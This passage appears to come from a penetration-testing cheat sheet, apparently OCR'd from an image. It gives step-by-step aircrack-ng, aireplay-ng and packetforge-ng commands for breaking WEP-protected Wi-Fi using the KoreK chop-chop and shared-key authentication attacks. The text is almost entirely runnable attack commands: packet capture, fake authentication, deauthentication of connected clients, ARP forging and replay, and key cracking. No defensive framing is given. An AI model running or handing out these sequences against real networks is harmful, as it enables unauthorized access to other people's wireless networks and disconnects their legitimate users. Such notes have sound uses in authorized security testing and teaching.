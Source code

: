 ```bash

# crack 
aircrack-ng <CAPTURE_NAME>
```

KoreK Chop Chop Attack

```bash
# packet capture
sudo airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# retrieve MAC address
macchanger --show <INTERFACE>

# fake authentication attack
sudo aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>

# chop chop attack
sudo aireplay-ng -4 -b <BSSID> -h <YOUR_MAC> <INTERFACE>

# forging ARP packet with the XOR packet from chop chop attack 
packetforge-ng -0 -a <BSSID> -h <YOUR_MAC> -k 255.255.255.255 -l 255.255.255.255 -y <CHOP_CHOP_PACKET>.xor -w <ARP_PACKET_NAME>

# interactive packet replay attack with the forge ARP packet
sudo aireplay-ng -2 -r <ARP_PACKET_NAME> <INTERFACE>

# crack 
aircrack-ng <CAPTURE_NAME>
```

## WEP - Shared Key Authentication

```bash
# packet capture
sudo airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# retrieve MAC address
macchanger --show <INTERFACE>

# fake authentication attack (should fail)
sudo aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>

# deauthentication attack (if there is client)
sudo aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>

# fake shared key authentication using the XOR keystream
sudo aireplay-ng -1 60 -e <ESSID> -y wepshared-<NAME>.xor -a <BSSID> -h <YOUR_MAC> <INTERFACE>

# ARP replay attack
sudo aireplay-ng -3 -b <BSSID> -h <YOUR_MAC> <INTERFACE>

# deauthentication attack (if there is client)
sudo aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>

# crack 
aircrack-ng <CAPTURE_NAME>
```
